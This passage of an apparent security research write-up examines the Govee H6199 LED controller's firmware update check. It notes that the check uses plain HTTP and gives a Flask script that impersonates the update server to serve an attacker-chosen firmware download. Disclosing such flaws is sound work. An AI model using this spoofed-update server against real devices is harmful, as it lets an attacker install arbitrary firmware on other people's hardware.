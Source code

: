 This whole process is triggered automatically several times a day and upon boot. This means it doesn't require any user interaction.

## Lets look at the communication
By looking at the binary `/home/govee/app` using Ghidra, I figured that the H6199 uses the endpoint `http://app.govee.com/device/rest/devices/v1/wifiCheckVersion` to check for new software Versions. This endpoint expects a JSON containing the current hard- and software version as well as the type of the device:
```text
{"sku": "H6199", "wifiVersionHard": "1.00.01", "wifiVersionSoft": "1.00.26"}
```
You can manually send such JSONs to that endpoint, e.g. using curl:

```text
$ curl -X POST -H "Content-Type: application/json" \                            
    -d '{"sku": "H6199", "wifiVersionHard": "1.00.01", "wifiVersionSoft": "1.00.26"}' \
    http://app.govee.com/device/rest/devices/v1/wifiCheckVersion
```
this returns:
```text
{"checkVersion":{"sku":"","versionHard":"","versionSoft":"","needUpdate":false,"downloadUrl":"","md5":"","size":0,"time":27773169},"message":"success","status":200}
```
`needUpdate":false` indicates that there are no new updates. But if we decrease the software version a bit we can actually get an update response:
```text
$ curl -X POST -H "Content-Type: application/json" \                            
    -d '{"sku": "H6199", "wifiVersionHard": "1.00.01", "wifiVersionSoft": "1.00.25"}' \
    http://app.govee.com/device/rest/devices/v1/wifiCheckVersion
```
```text
{"checkVersion":{"sku":"H6199","versionHard":"1.00.01","versionSoft":"1.00.26","needUpdate":true,"downloadUrl":"http://s3.amazonaws.com/govee-public/upgrade-pack/b19eb79f801bb113eba17521b88fc157-H6199_WIFI_HW1.00.01_SW1.00.26_OTA.tgz","md5":"801bb113eba17521","size":3072352,"time":27773172},"message":"success","status":200}
```

If the H6199 gets this response it uses the provided link, downloads the software, checks that the md5 sum matches and installs the update once the LEDs are turned off.

## HTTP only...
I'm a bit puzzled about why the `wifiCheckVersion` endpoint is not contacted using https. This way, an attacker (even outside of your local network) is able to modify the response. In particular an attacker that is controls the nameserver can easily map app.govee.com to a server under his control and send his own responses. That wouldn't be such an issue if the device would enforce https on the download link and check the certificates there. But that is not what is happening. One can for instance redirect the request to app.govee.com to any other address by adding a `/etc/hosts` to the H6199 and use a simple python script to respond to requests:
```python
from flask import Flask, jsonify, request

app = Flask(__name__)

@app.route('/device/rest/devices/v1/wifiCheckVersion', methods=['POST'])
def post_incode():
    return '{"checkVersion":{"sku":"H6199","versionHard":"1.00.01","versionSoft":"1.00.26","needUpdate":true,"downloadUrl":"http://<SOME IP ADDRESS>:8080/b19eb79f801bb113eba17521b88fc157-H6199_WIFI_HW1.00.01_SW1.00.26_OTA.tgz","md5":"5851ed92d2e6c77180ae23087957493b","size":3072053,"time":27764597},"message":"success","status":200}', 200

if __name__ == "__main__":
    from waitress import serve
    serve(app, host="0.0.0.0", port=80)
```
